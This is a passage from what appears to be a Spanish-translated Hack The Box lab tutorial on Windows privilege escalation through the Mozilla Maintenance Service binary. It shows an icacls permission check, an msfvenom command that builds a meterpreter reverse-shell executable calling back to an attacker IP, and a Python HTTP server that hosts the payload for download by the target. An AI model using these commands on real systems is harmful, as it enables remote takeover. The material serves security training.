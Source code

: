   Exploits de núcleo

```cmd-session
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
 
Successfully processed 1 files; Failed processing 0 files
```

#### Generar binario malicioso

Generemos un malicioso`maintenanceservice.exe`binario que se puede usar para obtener una conexión de carcasa inversa de meterpreter de nuestro objetivo.

  Exploits de núcleo

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```

#### Anfitrión del binario malicioso

Podemos descargarlo al objetivo usando Curl después de comenzar un servidor Python HTTP en nuestro host de ataque como en el`User Account Control`sección anteriormente. También podemos usar WGet desde el objetivo.

  Exploits de núcleo

```shell-session
xnoxos@htb[/htb]$ $ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```

#### Descargando el binario malicioso

Para este paso necesitamos hacer dos copias del archivo .exe malicioso. Podemos simplemente detenerlo dos veces o hacerlo una vez y hacer una segunda copia.
